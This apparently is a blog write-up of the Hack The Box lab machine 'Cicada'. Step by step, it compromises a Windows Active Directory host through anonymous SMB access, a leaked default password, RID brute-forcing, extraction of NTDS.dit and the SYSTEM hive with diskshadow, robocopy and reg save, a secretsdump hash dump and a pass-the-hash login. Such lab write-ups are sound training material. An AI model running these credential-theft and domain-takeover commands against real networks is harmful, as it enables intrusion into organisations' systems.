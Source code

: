 ```yaml
---
layout: post
title: Cicada - HackTheBox
date: 2024-13-11 19:25:40
description: Writeup for a Box in HackTheBox
tags: windows
categories: htb
---
```


# Cicada  

**Author:** p4pa  
**Platform:** Hack The Box (Easy)  

## Reconnaissance

### NMAP

Starting with **Nmap**, I scanned the target to identify any open ports and services. This would guide my initial approach, helping me focus on the services that might allow further access.

```bash
nmap -Pn 10.10.11.35
```

This scan revealed a range of open ports, suggesting a **Windows environment** with possible Active Directory (AD) involvement, given the presence of SMB, LDAP, and Kerberos ports:

```bash
PORT     STATE SERVICE
53/tcp   open  domain            # DNS
88/tcp   open  kerberos-sec      # Kerberos
135/tcp  open  msrpc             # RPC
139/tcp  open  netbios-ssn       # NetBIOS
389/tcp  open  ldap              # LDAP
445/tcp  open  microsoft-ds      # SMB
464/tcp  open  kpasswd5          # Kerberos password change
593/tcp  open  http-rpc-epmap    # HTTP RPC endpoint mapper
3268/tcp open  globalcatLDAP     # Global Catalog LDAP
3269/tcp open  globalcatLDAPssl  # Global Catalog LDAP over SSL
```

To gain more insight, I ran an **Nmap service scan** on these ports, aiming to detect version details and confirm any AD clues.

```bash
nmap -p 53,88,135,389,445,464,593,3268,3269 -sV 10.10.11.35 -Pn
```

---

### LDAP and SMB

I started with **LDAP** as it can sometimes allow anonymous binding, giving access to AD information. Here, however, **anonymous bind was denied**, indicating that authentication was required.

```bash
ldapsearch -H ldap://10.10.11.35:389 -x
```

Next, I explored **SMB**. Using `smbclient`, I listed available shares and tried accessing them without credentials. This worked for several shares, but only **HR** allowed anonymous access.

```bash
smbclient -L //10.10.11.35 -N
```

Listing the contents of `HR`, I found a file called *"Notice from HR.txt"*:

```bash
smb: \> ls
Notice from HR.txt
```

Opening it revealed what appeared to be **default credentials** for new hires:

```plaintext
Your default password is: Cicada$M6Corpb*@Lp#nZp!8
```

This was promising, as it implied we might have found a valid **AD account credential**.

### RPC Enumeration

With this initial password in hand, I turned to **RPC**. First, I attempted **anonymous enumeration** via `rpcclient`:

```bash
rpcclient -U "" 10.10.11.35
```

However, I didn’t have the required permissions for user enumeration as an anonymous user. Using the **default HR credentials**, I was able to log in successfully, though I still couldn’t enumerate all users without higher permissions.

### HTTP and RPC Endpoint Analysis

The **HTTP endpoint on port 593** was notable as it provided **RPC over HTTP**—an older service that can sometimes leak endpoint information. Running a scan revealed multiple endpoints, including:

- **LiveIdSvc RPC** - potentially related to Microsoft account authentication.
- **Group Policy RPC Interface** - could be useful if it holds misconfigured policies.
- **MS NT Directory DRS Interface** - ties into AD replication, hinting that this machine might indeed be a domain controller.

---

## SMB User Enumeration with NXC

At this point, I reached out to a friend ([https://github.com/Co3lho22](Co3lho)) who recommended **NXC**, a helpful tool for SMB enumeration, especially within AD environments. NXC’s **RID-brute** functionality can reveal domain users by brute-forcing their relative IDs (RIDs).

```bash
nxc smb -u 'asdf' -p '' --rid-brute 20000 10.10.11.35
```

The enumeration yielded several accounts, including **michael.wrightson**. I attempted to log in using the **HR default password**:

```bash
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

After gaining access with Michael’s credentials, I used **NXC to enumerate other users**. This resulted in the discovery of **David Orelious’s credentials**:

- Username: `david.orelious`
- Password: `aRt$Lp#7t*VQ!3`

Testing David’s login on SMB, I found he had access to a **DEV share**, where I discovered a **backup script**. Reviewing this script yielded even more credentials:

```plaintext
emily.oscars
Q!3@Lp#M6b*7t*Vt
```

---

## Privilege Escalation and Reverse Shell

With **Emily Oscars’ credentials** in hand, I decided to try for a remote session with **Evil-WinRM**.

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

After logging in, I checked her **privileges** using `whoami /priv`. The output showed **SeBackupPrivilege** and **SeRestorePrivilege**, which are essential for accessing and modifying files usually restricted to admins:

```plaintext
SeBackupPrivilege
SeRestorePrivilege
```

### Directory Discovery and Privilege Escalation with SeBackupPrivilege

Having **SeBackupPrivilege** meant I could attempt to access otherwise restricted system files, like `NTDS.dit`, which holds AD data. To exploit this, I wrote a **diskshadow script** to mount the C drive:

```plaintext
set metadata C:\Windows\Temp\meta.cab
add volume C: alias cdrive
expose %cdrive% E:
```

Using **diskshadow** with this script allowed me to mount the drive for backup:

```bash
diskshadow /s backup_script.txt
```

### Extracting NTDS.dit with Robocopy

Once mounted, I used **Robocopy** to copy `NTDS.dit` and acquire **encrypted AD user data**:

```bash
robocopy /b E:\Windows\ntds . ntds.dit
```

I also needed the **SYSTEM registry hive** to decrypt these hashes, so I saved it using the **reg save** command:

```bash
reg save hklm\system C:\Users\emily.oscars.CICADA\Documents\system.bak
```

### Dumping Administrator Hash

I downloaded `ntds.dit` and `system.bak`, then used **Impacket’s secretsdump** to extract the **Administrator NTLM hash**:

```bash
impacket.secretsdump -ntds ntds.dit -system system.bak local
```

Finally, with the Administrator hash, I logged in using Evil-WinRM to access the Administrator account:

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H <hash>
```

**Flag:** The **root flag** was located in `root.txt`.
